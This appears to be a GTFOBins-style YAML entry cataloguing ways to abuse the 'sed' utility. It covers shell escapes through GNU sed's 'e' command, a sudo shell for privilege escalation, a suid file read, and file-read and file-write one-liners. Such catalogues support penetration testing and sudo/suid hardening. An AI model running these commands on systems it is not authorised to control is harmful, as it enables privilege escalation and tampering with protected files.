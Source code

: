 ```yaml
---
functions:
  execute-interactive:
    - description: GNU version only. Also, this requires `bash`.
      code: sed -n "1e bash -c 'exec 10<&0 11>&1 0<&2 1>&2; /bin/sh -i'" /etc/hosts
  execute-non-interactive:
    - description: GNU version only.
      code: sed -n "1e id" /etc/hosts
  sudo-enabled:
    - description: GNU version only. Also, this requires `bash`.
      code: sudo sed -n "1e /bin/bash -c 'exec 10<&0 11>&1 0<&2 1>&2; /bin/sh -i'" /etc/hosts
  suid-enabled:
    - code: |
        LFILE=file_to_read
        ./sed -e '' "$LFILE"
  file-read:
    - code: |
        LFILE=file_to_read
        sed '' "$LFILE"
  file-write:
    - code: |
        LFILE=file_to_write
        sed -n "1s/.*/data/w $LFILE" /etc/hosts
---
```

